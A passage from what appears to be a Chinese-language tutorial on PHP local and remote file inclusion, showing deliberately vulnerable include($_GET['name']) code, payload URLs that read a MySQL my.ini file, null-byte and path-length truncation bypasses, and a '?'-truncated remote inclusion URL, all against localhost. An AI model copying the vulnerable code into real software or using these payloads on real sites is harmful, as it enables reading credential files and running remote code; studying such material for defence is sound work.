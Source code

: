 示例：

```
<?php
    $file = $\_GET\['name'\];
    include($file);
?>

```

```
payload:

```

```
http://127.0.0.1/test.php?name=D:\\phpstudy\\PHPTutorial\\MySQL\\my.ini

```

这是个最简单的文件包含，没有任何过滤。但是一般程序不会这么写，一般会指定  

后缀，这样我们就需要截断来绕过了。  

```
<?php
    $file = $\_GET\['name'\];
    include($file . "html");
?>

```

在 PHP5.2.x 中我们可以通过使用 %00 来截断后面的内容、也可以使用路径长度截断，不过都在 php5.3 中被修复了。

**payload：**

```
http://127.0.0.1/test.php?name=D:\\phpstudy\\PHPTutorial\\MySQL\\my.ini%00

```

利用**字符. 或者 /. 或者./** 来截断。系统文件路径长度限制**：windows 259 个 byteslinux 4096 个 bytes**。

#### **远程包含**

远程文件包含漏洞 (Remote File Inclusion) 简称 RFI，他需要我们的 **php.ini** 中配置**`allow_url_include`、 `allow_url_fopen`**。

**1\. 包含远程文件**

需要打开**`allow_url_include=On`、 `allow_url_fopen = On`**

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqdMpF2uCUNnL2tZf8CrQrOmmzYrKTiaMm47XOtANaTZlyxLBxPYDLAOqW2CwC7Z6U7icOTkvBORsDeQ/640?wx_fmt=png)

他可以利用? 号截断，不受版本限制

**payload：**

```
http://127.0.0.1/test.php?name=http://127.0.0.1/1.txt?

```
